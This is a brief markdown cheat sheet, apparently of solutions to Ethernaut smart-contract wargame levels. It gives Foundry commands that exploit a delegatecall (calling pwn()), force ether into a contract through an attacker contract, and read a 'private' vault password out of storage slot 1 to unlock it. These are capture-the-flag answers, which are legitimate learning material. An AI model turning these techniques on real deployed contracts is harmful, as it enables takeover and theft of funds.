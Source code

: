 # Ethernaut

## Delegation

```bash
cast send <TARGET_CONTRACT> "pwn()"
```

## Forge

```bash
# Deploy
forge create ForceAttacker --constructor-args <TARGET_CONTRACT>

# Attack
cast send --value 0.01ether <ATTACKER_CONTRACT>
```

## Vault

```bash
PASSWORD=$(cast storage 0x19750Da423914182425B8F16E00A9ADDc6fd493d 1)
cast send <TARGET_CONTRACT> "unlock(bytes32)" "$PASSWORD"
```
